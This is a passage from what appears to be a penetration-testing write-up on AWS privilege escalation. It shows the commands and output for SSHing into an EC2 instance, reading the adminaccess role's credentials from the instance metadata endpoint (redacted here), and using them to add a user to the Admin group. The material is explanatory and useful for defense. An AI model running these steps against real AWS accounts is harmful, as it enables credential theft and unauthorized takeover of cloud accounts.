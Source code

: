 ```
➜ aws ec2 describe-instances --instance-id i-03aba12967c0cb73a --profile privesc --region us-east-1
```

Again, the output will be very long and not shown here. However, once provisioning is complete, the "state" of the instance will change to "running" and it should obtain a public IP address. At this point, the attacker can SSH into the instance, provided that they have the private SSH key that belongs to the "Public" key pair. After gaining access to the instance, the user can then request AWS keys for the adminaccess role through the metadata IP address:

```bash
➜ ssh ec2-user@3.84.235.112 -i ~/.ssh/id_rsa

Warning: Permanently added '3.84.235.112' (RSA) to the list of known hosts.
X11 forwarding request failed on channel 0

       __| __|_ )
       _| ( / Amazon Linux 2 AMI
      ___|\___|___|

https://aws.amazon.com/amazon-linux-2/
[ec2-user@ip-172-31-57-71 ~]$ curl 169.254.169.254/latest/meta-data/iam/security-credentials/adminaccess
```

```json
{
  "Code" : "Success",
  "LastUpdated" : "2019-03-15T22:47:58Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "[REDACTED]",
  "SecretAccessKey" : "[REDACTED]",
  "Token" : "[REDACTED]",
  "Expiration" : "2019-03-16T05:22:37Z"
}
```

The user can now use the AWS keys and its associated token to make AWS API calls under the adminaccess role. The commands below show the user adding themselves to the Admin group:

```bash
➜ aws iam add-user-to-group --group-name Admin --user-name privesc_test --profile stolen-keys
➜ aws iam list-groups-for-user --user-name privesc_test --profile privesc
```

```json
{
    "Groups": [
        {
            "Path": "/",
            "CreateDate": "2017-08-08T21:28:08Z",
            "GroupId": "AGPAI5GDGD6WEZ54JKYYQ",
            "Arn": "arn:aws:iam::[REDACTED]:group/Admin",
            "GroupName": "Admin"
        },
        {
            "Path": "/",
            "CreateDate": "2019-03-15T21:04:06Z",
            "GroupId": "AGPAJ6XUU2ZC26UUIBV5A",
            "Arn": "arn:aws:iam::[REDACTED]:group/privesc3",
            "GroupName": "privesc3"
        }
    ]
}
```
